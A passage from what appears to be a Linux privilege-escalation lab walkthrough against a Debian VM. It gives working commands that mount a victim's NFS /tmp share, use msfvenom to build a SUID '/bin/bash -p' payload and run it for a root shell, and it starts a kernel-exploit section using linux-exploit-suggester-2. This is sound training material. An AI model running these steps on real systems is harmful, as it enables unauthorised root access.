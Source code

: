 **Kali**

```
sudo su
```

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly).

**Kali**

```
mkdir /tmp/nfs
mount -o rw,vers=3 $VICTIM:/tmp /tmp/nfs
```

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash).

**Kali**

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

Still using Kali's root user, make the file executable and set the SUID permission.

**Kali**

```
chmod +xs /tmp/nfs/shell.elf
```

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell.

**Victim**

```
/tmp/shell.elf
```

<figure><img src="../../.gitbook/assets/image (7) (7) (1).png" alt=""><figcaption></figcaption></figure>

## Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

Run the Linux Exploit Suggester 2 tool to identify potential kernel exploits on the current system.

**Victim**

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```
